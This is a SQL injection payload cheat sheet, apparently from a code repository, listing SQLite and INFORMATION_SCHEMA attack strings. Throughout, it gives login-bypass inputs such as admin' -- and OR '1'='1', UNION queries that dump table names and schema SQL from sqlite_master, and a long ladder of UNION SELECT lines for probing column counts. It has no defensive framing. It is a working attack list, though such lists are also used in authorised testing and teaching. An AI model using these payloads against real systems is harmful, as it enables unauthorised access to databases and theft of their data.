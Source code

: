 # For SQLi (SQLite)
Command characters are (#, /**/, ;, —)

We can use the following code to make it true

("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/")

#### 0+UNION+SELECT+NULL,+COLUMN_NAME,+NULL,+NULL+FROM+INFORMATION_SCHEMA.COLUMNS
#### 0+UNION+SELECT+NULL,+group_concat(COLUMN_NAME),+NULL,+NULL+FROM+INFORMATION_SCHEMA.COLUMNS
#### 0+UNION+SELECT+2,3,table_name,4+from+INFORMATION_SCHEMA.tables
#### 0+UNION+SELECT+2,group_concat(table_name),3,4+from+INFORMATION_SCHEMA.TABLES
#### 0+UNION+SELECT+2,3,group_concat(table_name),4+from+INFORMATION_SCHEMA.tables+where+table_SCHEMA=database()
..............................................................................
# For SQLi (SQLite)

user=admin' ;&pass=a 

user=admin' --&pass=a

user=admin' /*&pass=a

adm'||'in &Pass=' glob '*

user=ad'||'min'%00&pass=a

user=1' OR '1'='1%00&pass=a

user=admin' OR '1'='1';&pass=a

user=admin' OR '1'='1'--&pass=a

user=admin' OR '1'='1'/*&pass=a

user=admin&pass=a'/**/IS/**/NOT/**/'b

user='admi'||CHAR(' AND pass='-0+110)||''

user=adm' ||   trim('in', Password: )  || '&pass=a

user=admin' union select * from users where '1&pass=a

user=' union select * from users where username in("admin")/*&pass=a

user=mali'/**/union/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;&pass=a

User='/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*&pass=a

.....................................................................................
# For SQLi (SQLite)

'union select sqlite_version() -- -

123' UNION SELECT 1, sqlite_version(), 3;--

' UNION SELECT table_name FROM sqlite_master --

123' UNION SELECT name, sql, null from sqlite_master;--

' UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='your_table' --

'UNION SELECT tbl_name FROM sqlite_master WHERE TYPE='table' AND tbl_name NOT LIKE'sqlite_%'

' UNION SELECT null, sql FROM sqlite_master WHERE type='view' --

' UNION SELECT null, sql FROM sqlite_master WHERE type='trigger' --

' UNION SELECT null, sql FROM sqlite_master WHERE type='index' --

' UNION SELECT null, sql FROM sqlite_master WHERE type='table' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' --

' UNION SELECT null, sql FROM sqlite_master WHERE type='index' AND sql NOT NULL --

' UNION SELECT null, sql FROM sqlite_master WHERE type='trigger' AND sql NOT NULL --

' UNION SELECT null, sql FROM sqlite_master WHERE type='view' AND sql NOT NULL --

' UNION SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL --

' UNION SELECT null, name FROM pragma_function_list() WHERE name NOT LIKE 'sqlite_%' --

' UNION SELECT null, name FROM pragma_module_list() WHERE name NOT LIKE 'sqlite_%' --

' UNION SELECT group_concat(name) FROM sqlite_master WHERE type='table' --

' UNION SELECT group_concat(sql) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name' --

' UNION SELECT null, table_name FROM pragma_table_info('sqlite_master') --

' UNION SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name' --
.....................................................................................................................

' UNION SELECT NULL --

' UNION SELECT 1 --

' UNION SELECT 'a' --

' UNION SELECT 'a', 'b' --

' UNION SELECT 'a', 'b', 'c' --

' UNION SELECT 'a', 'b', 'c', 'd' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0', '1' --


